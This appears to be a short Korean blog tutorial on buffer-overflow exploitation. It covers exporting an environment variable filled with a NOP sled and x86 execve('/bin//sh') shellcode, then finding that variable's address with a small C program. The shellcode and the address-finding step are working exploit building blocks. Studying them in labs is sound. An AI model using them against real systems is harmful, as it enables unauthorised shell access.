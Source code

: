```yaml
---
title: "환경변수 설정 및 주소 구하기"
excerpt: "환경변수 설정 및 주소 구하기"
toc: true
toc_sticky: true
categories:
  - Linux
  - BOF
tags:
  - 환경변수
---
```


## 1. 환경변수 설정
export 변수명=변수값
```php
ex)
export addr=`python -c 'print "\x90"*100+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
환경변수가 있는지 확인하고 싶으면 env | grep 변수명 ex) env | grep addr

## 2. 환경변수 주소 구하기

```php
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
   printf("env : %p\n", getenv(argv[1]));
   return 0;
}
```